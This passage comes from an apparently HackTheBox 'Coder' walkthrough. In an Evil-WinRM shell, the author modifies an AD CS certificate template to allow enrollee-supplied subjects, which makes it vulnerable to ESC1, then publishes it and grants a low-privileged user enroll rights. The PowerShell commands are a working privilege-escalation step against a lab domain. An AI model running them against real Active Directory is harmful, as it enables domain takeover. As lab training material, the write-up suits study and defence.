 ```
                                          CODER.HTB\Enterprise Admins
        Write Property Principals       : CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins

```

Let’s make a copy of this that’s vulnerable to ESC1. BlackHills has a [nice post](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/) that lays out what’s required for ESC1, including this image:

![img](/img/coder-Picture3.png)

Comparing that to the “Computer” template above, I’ll need to change the “Enrollee Supplies Subject” and “Certificate Name Flag”. If I do a search in the Certipy repo for that string, I’ll see they are likely related, and the `ENROLLEE_SUPPLIES_SUBJECT` value is 1:

![image-20231215124804834](/img/image-20231215124804834.png)

It has to do with `msPKI-Certificate-Name-Flag`. I’ll start by getting a template as an object in PowerShell like above:

```
*Evil-WinRM* PS C:\programdata> Export-ADCSTemplate -displayName Computer > computer.json
*Evil-WinRM* PS C:\programdata> $computer = cat computer.json -raw | ConvertFrom-Json

```

I can find the exact name for the property I need to change:

```
*Evil-WinRM* PS C:\programdata> $computer | get-member | findstr Name-Flag
msPKI-Certificate-Name-Flag   NoteProperty int msPKI-Certificate-Name-Flag=402653184

```

I’ll set that to 0x1:

```
*Evil-WinRM* PS C:\programdata> $computer.'msPKI-Certificate-Name-Flag' = 0x1

```

Now output it to JSON and then create the template, and enroll e.black:

```
*Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod-esc1.json           
*Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName "0xdf-ESC1" -Publish -JSON (cat computer-mod-esc1.json -raw)
*Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName "0xdf-ESC1" -type allow -identity 'coder\e.black' -enroll

```

If I scan Coder with `certipy` now looking for vulnerable templates (with `-vulnerable`), this new template comes out:

